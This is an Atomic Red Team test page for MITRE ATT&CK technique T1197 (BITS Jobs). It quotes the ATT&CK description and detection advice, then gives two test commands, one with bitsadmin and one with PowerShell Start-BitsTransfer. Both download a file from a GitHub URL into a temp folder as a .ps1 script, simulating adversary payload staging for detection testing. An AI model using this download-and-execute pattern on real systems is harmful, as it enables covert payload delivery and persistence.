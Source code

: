# T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)
<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM) (Citation: Microsoft COM). (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through PowerShell  (Citation: Microsoft BITS) and the BITSAdmin tool. (Citation: Microsoft BITS)Admin

Adversaries may abuse BITS to download, execute, and even clean up after malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform Exfiltration Over Alternative Protocol. (Citation: CTU BITS Malware June 2016)

Detection: BITS runs as a service and its status can be checked with the Sc query utility (<code>sc query bits</code>). (Citation: Microsoft Issues with BITS July 2011) Active BITS tasks can be enumerated using the BITSAdmin tool (<code>bitsadmin /list /allusers /verbose</code>). (Citation: Microsoft BITS)

Monitor usage of the BITSAdmin tool (especially the ‘Transfer’, 'Create', 'AddFile', 'SetNotifyFlags', 'SetNotifyCmdLine', 'SetMinRetryDelay', 'SetCustomHeaders', and 'Resume' command options)  (Citation: Microsoft BITS)Admin and the Windows Event log for BITS activity. Also consider investigating more detailed information about jobs by parsing the BITS job database. (Citation: CTU BITS Malware June 2016)

Monitor and analyze network activity generated by BITS. BITS jobs use HTTP(S) and SMB for remote connections and are tethered to the creating user and will only function when that user is logged on (this rule applies even if a user attaches the job to a service account). (Citation: Microsoft BITS)

Platforms: Windows

Data Sources: API monitoring, Packet capture, Windows event logs

Defense Bypassed: Firewall, Host forensic analysis

Permissions Required: User, Administrator, SYSTEM

Contributors: Ricardo Dias, Red Canary</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)


<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
bitsadmin.exe  /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/59b33d16d7ace0bfb32d12fbcf166cc2a6dce129/atomics/T1197/T1197.md $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
```
<br/>
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/59b33d16d7ace0bfb32d12fbcf166cc2a6dce129/atomics/T1197/T1197.md -Destination $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
```
<br/>
